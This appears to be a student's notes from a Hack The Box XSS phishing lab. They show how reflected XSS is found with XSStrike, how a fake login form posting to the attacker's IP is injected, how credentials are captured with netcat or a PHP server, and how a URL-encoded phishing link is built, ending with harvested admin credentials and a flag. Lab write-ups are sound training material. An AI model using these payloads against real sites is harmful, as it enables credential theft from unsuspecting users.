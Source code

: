 # 06 phishing

## XSS Discovery

git clone https://github.com/s0md3v/XSStrike.git cd XSStrike pip install -r requirements.txt python xsstrike.py

## Login Form Injection

OUR\_IP = ip of our VM

### Please login to continue

&#x20;&#x20;

document.write('

### Please login to continue

\<form id='urlform' action=http://OUR\_IP>');

## Cleaning Up

document.getElementById('urlform').remove();

document.write('

### Please login to continue

\<form id='urlform' action=http://OUR\_IP>');document.getElementById('urlform').remove();

## Credential Stealing

python3 -m http.server 80

sudo nc -lvnp 80

connect to \[10.10.XX.XX] from (UNKNOWN) \[10.10.XX.XX] XXXXX GET /?username=test\&password=test\&submit=Login HTTP/1.1 Host: 10.10.XX.XX ...SNIP...

Create a PHP file so the user won't get an HTTP error

mkdir /tmp/tmpserver cd /tmp/tmpserver vi index.php

sudo php -S 0.0.0.0:8081

cat creds.txt Username: test | Password: test

## LAB

http://10.129.218.230/phishing/

http://10.129.218.230/phishing/index.php?url=test

### XSS Discovery

git clone https://github.com/s0md3v/XSStrike.git cd XSStrike pip install -r requirements.txt python xsstrike.py

python xsstrike.py -u "http://10.129.218.230/phishing/index.php?url=test"

## \[~~] Checking for DOM vulnerabilities \[+] WAF Status: Offline \[!] Testing parameter: url \[!] Reflections found: 1 \[~~] Analysing reflections \[\~] Generating payloads \[!] Payloads generated: 3096

\[+] Payload: '>\<Html%09ONmoUSeOver+=+\[8].find(confirm)%0dx// \[!] Efficiency: 100 \[!] Confidence: 9 \[?] Would you like to continue scanning? \[y/N]

### Test Reflected XSS

alert(window.origin)

\--> Failed

'>alert(window.origin)//

\--> OK

### Login Form Injection

mkdir /tmp/tmpserver cd /tmp/tmpserver vi index.php

sudo php -S 0.0.0.0:8081

'>document.write('

### Please login to continue

\<form id='urlform' action=http://10.10.15.90:8081>');//

\--> Form OK

cat /tmp/tmpserver/creds.txt Username: yanis | Password: nisya

### Phishing

http://10.129.218.230/phishing/send.php

Add URL :

http://10.129.218.230/phishing/index.php?url=%27%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+id%3D%27urlform%27+action%3Dhttp%3A%2F%2F10.10.15.90%3A8081%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B%2F%2F+

cat /tmp/tmpserver/creds.txt Username: yanis | Password: nisya Username: admin | Password: p1zd0nt57341myp455

http://10.129.218.230/phishing/login.php

HTB{r3f13c73d\_cr3d5\_84ck\_2\_m3}

### Cleaning Up

http://10.129.218.230/phishing/

'document.write('

### Please login to continue

\<form id='urlform' action=http://10.10.15.90:8081>;document.getElementById('urlform').remove();//

???
